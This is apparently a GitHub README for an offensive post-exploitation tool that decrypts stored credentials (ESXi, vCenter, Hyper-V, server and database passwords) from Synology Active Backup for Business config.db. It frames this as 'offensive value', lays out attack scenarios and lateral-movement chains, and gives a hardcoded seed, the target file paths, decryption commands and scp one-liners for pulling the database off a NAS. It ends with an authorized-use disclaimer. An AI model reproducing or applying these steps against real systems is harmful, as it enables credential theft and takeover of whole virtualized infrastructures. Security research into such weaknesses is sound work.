

# Synology-Inventory-Decryptor

A post-exploitation tool that **instantly decrypts all credentials** stored in Synology Active Backup for Business (ABB) `config.db`, yielding plaintext passwords for ESXi, vCenter, Hyper-V, Windows/Linux servers, MSSQL, and Oracle databases.

## Why This Matters — Offensive Value

Synology NAS devices running Active Backup for Business are **credential gold mines**. ABB requires privileged access to every system it backs up, so its `config.db` contains:

- **Hypervisor root credentials** — ESXi `root`, vCenter admin, Hyper-V admin, SCVMM
- **Server OS credentials** — Domain admin or local admin accounts for every backed-up Windows/Linux server
- **Database credentials** — MSSQL `sa`, Oracle `SYSDBA` or application-level accounts
- **DSM admin credentials** — Other Synology NAS devices in the backup topology

**A single compromised Synology NAS can hand you the keys to the entire infrastructure.**

### Attack Scenarios

<picture>
  
</picture>

```
            ┌─────────────────────────────────────────────────────────────────────┐
            │                     ATTACK SCENARIOS                                │
            ├─────────────────────────────────────────────────────────────────────┤
            │                                                                     │
            │  1. NAS Compromise → Full Infrastructure Takeover                   │
            │     Shell on NAS → config.db → ESXi root → all VMs                  │
            │                                                                     │
            │  2. Backup File Exfiltration                                        │
            │     Stolen .abb backup of NAS → extract config.db → decrypt         │
            │                                                                     │
            │  3. Shared Storage / Misconfigured Permissions                      │
            │     SMB/NFS share exposes /volume1/ → read config.db directly       │
            │                                                                     │
            │  4. Lateral Movement Pivot                                          │
            │     Low-priv foothold → NAS via default creds → ABB credentials     │
            │     → Domain Admin / vCenter Admin                                  │
            │                                                                     │
            └─────────────────────────────────────────────────────────────────────┘
```

### Credential Value Matrix

| Credential Type | What You Get | Offensive Impact |
|---|---|---|
| ESXi root | Full hypervisor control | Snapshot VMs, extract memory, implant backdoors, access all guest VMs |
| vCenter admin | Centralized management of all ESXi hosts | Entire virtualization infrastructure — move/clone/snapshot any VM |
| Hyper-V admin | Windows hypervisor control | Access all Hyper-V guest VMs, pivot to AD if joined |
| Server login (Windows) | Often Domain Admin or local admin | Lateral movement, DCSync, credential harvesting, ransomware staging |
| Server login (Linux) | Root or sudo-capable accounts | SSH pivot, data exfiltration, persistence |
| MSSQL credentials | Database admin access | Data theft, xp_cmdshell → OS command execution, linked server pivoting |
| Oracle credentials | Database admin access | Data theft, Java/OS command execution via DB features |
| DSM admin | Other Synology NAS devices | Chain to additional NAS → more ABB instances → more credentials |

## How It Works

The full reverse-engineering write-up — the hardcoded seed, the modified RC4-KSA
substitution cipher, the `EVP_BytesToKey` key derivation, the AES-256-CBC scheme, the
static-IV weakness, and the `config.db` schema — is documented in the accompanying blog post:

**→ [Decrypting Synology Active Backup Inventory Credentials](<BLOG_URL>)**

## Requirements

- Python >= 3.10
- `cryptography >= 3.0`

```bash
pip install cryptography
```

## Usage

```
python decrypt.py [-h] [--so PATH] [--seed HEX] [--table {inventory,device,all}]
                  [--format {table,json,csv}] [--version]
                  db
```

### Quick Start

```bash
# Fastest — use built-in default seed
python decrypt.py config.db

# Auto-extract seed from the .so binary
python decrypt.py --so libsynoabk.so.1 config.db

# Manually specify seed
python decrypt.py --seed 5fed151ed24021f9fd689f18c7b0434c config.db
```

### Output Formats

```bash
# Human-readable table (default)
python decrypt.py config.db

# JSON — for scripting and further processing
python decrypt.py --format json config.db

# CSV — pipe-friendly, import to spreadsheet
python decrypt.py --format csv config.db > creds.csv
```

### Filter by Table

```bash
# Hypervisors only (ESXi, vCenter, Hyper-V)
python decrypt.py --table inventory config.db

# Devices only (servers, VMs, DSM)
python decrypt.py --table device config.db
```

## Target File Locations

On a Synology NAS with Active Backup for Business installed:

| File | Path |
|---|---|
| `config.db` | `/var/packages/ActiveBackup/target/etc/setting/config.db` |
| `libsynoabk.so.1` | `/var/packages/ActiveBackup/target/usr/lib/libsynoabk.so.1` |

### One-Liner (On Target)

```bash
# Copy both files for offline decryption
scp root@nas:/var/packages/ActiveBackup/target/etc/setting/config.db .
scp root@nas:/var/packages/ActiveBackup/target/usr/lib/libsynoabk.so.1 .
python decrypt.py --so libsynoabk.so.1 config.db
```

## Disclaimer

This tool is provided for **authorized penetration testing, red team operations, incident response, and security research** only. Use it exclusively on systems you own or have explicit written authorization to test. Unauthorized access to computer systems and data is a criminal offense.

## License

MIT
